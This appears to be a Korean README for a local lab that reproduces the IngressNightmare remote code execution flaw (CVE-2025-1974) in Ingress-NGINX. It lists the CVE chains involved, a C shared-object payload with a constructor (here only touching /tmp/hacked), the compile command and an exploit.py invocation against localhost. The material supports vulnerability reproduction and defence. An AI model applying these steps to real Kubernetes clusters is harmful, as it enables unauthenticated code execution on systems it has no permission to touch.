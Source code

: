 # Kubernets Ingress-NGINX 인증되지 않은 원격 코드 실행(CVE-2025-1974)

Ingress-NGINX: NGINX를 역방향 프록시 및 로드 밸런서로 사용하는 Kubernetes 용 인그레스 컨트롤러

"IngressNightmare" 취약점(CVE-2025-1974)은 수신되는 Ingree 리소스의 유효성을 검사하는 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller 의 치명적인 결함에서 비롯된다.
이 컨트롤러는 인증 없이도 네트워크에 노출되어 공격자가 악성 AdmissionReview 요청을 조작하고 Ingress 리소스에 무단 구성을 삽입할 수 있도록 한다.
다른 취약점(CVE-2025-24514, CVE-2024-1097 또는 CVE-2025-1098)과 연계될 경우 원격 코드 실행으로 이어질 수 있다.

일부 악용 가능한 체인은 다음과 같다.

CVE-2025-1974+CVE-2025-24514: auth-url 주석 주입을 통한 RCE

CVE-2025-1974+CVE-2025-1097: auth-tls-match-cn 주석을 통한 RCE

CVE-2025-1974+CVE-2025-1098: 이미지 UID 남용을 통한 RCE

## 환경 설정
취약점을 시뮬레이션 하기 위해 단순성을 위해 K3s 기반 Kubernetes 환경이 사용된다

```
docker compose up -d
```

쿠버네티스 API가 준비되고 Ingress-nginx 컨트롤러가 시작될 때까지 기다린다.
환경이 시작되면, Ingress-NGINX는 30080번과 30443번 포트(TLS)에서 수신 대기하고, Ingress-NGINX Admission Controller는 30443번 포트이다.

## 취약성 재생산
<kbd>.so</kbd> 먼저, 컨테이너의 아키텍처와 일치하는 공유 객체( ) 페이로드를 컴파일해야 한다.
```
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

1. 소스 코드 컴파일

```
gcc -shared -fPIC -o shell.so shell.c
```

2. 위의 소스 코드를 적절한 환경으로 컴파일한 후 exploit.py를 사용하여 취약점을 악용

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```
<kbd>AdmissionReview</kbd> exploit은 NGINX가 악성 동적 공유 객체를 로드하도록 강제하는 지시어 주입 요청을 위조하여 작동한다.

exploit이 성공하면 ingress-nginx 컨테이너 내부에 파일이 <kbd>ssl_engine</kbd> 생성되는 것을 확인할 수 있다.

![image](https://github.com/user-attachments/assets/c096e0dc-e7fb-4058-b21f-93f701301f29)







